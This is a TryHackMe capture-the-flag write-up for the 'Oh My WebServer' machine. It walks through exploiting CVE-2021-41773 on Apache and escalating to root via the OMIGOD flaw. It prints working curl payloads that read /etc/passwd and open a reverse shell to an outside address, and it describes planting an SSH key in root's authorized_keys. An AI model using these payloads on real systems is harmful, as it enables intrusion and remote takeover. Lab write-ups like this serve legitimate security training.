

# Oh My WebServer TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.


## Enumeration
We access the website and find this page of an active web server:


We launch **dirsearch** to search for existing directories or files that may be relevant for other attacks.


## Exploitation
Exploited vulnerability CVE-2021-41773

#### PoC
```bash 
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```



### Reverse shell
```bash
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.246.129/443 0>&1' -H "Content-Type: text/plain"
```


### Attack Machine


It looks like we are on a docker machine and we will need to exit the docker and connect to the host machine.

## Privilege Escalation
There is a script in "*/tmp*"


The file includes a github to a CVE, reading about this CVE allows privilege escalation on the system.

### Exploit: [https://github.com/midoxnet/CVE-2021-38647](https://github.com/midoxnet/CVE-2021-38647)

#### PoC


We list the root directory, we could "cheat" and read the flag directly, but the idea is to exploit the vulnerability and get privilege escalation as root.


We see that the "*id_rsa*" file does not exist, but the "*authorized_keys*" file does exist, remember that the machine has the **SSH** service open, so we will take advantage of the vulnerability to transfer our public key to the file and enter by **SSH** with the "*root*" user.


We put our public key in the file "*authorized_keys*" exploiting the vulnerability "**OMIGOD**".


We connect via **SSH** with our private key and read the root flag.


I almost forgot! We still need to identify the user flag, let's do a **find** in the root directory and we will get it easily.

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
